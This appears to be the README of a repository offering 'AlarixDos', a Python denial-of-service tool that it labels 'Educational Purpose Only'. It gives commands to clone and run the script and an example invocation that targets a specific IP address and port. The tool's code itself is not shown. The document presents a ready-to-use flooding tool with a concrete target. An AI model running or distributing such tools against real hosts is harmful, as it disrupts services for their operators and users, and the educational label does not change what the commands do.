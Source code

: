 # AlarixDos
Educational Purpose Only.

Credit to LITEDDOS (4L13199)
## How to use?
```
git clone https://github.com/AlarixDev/AlarixDos
cd AlarixDos
python alarixdos.py
```
## Example: 
```
python alarixdos.py 104.27.190.77 8080 100
```
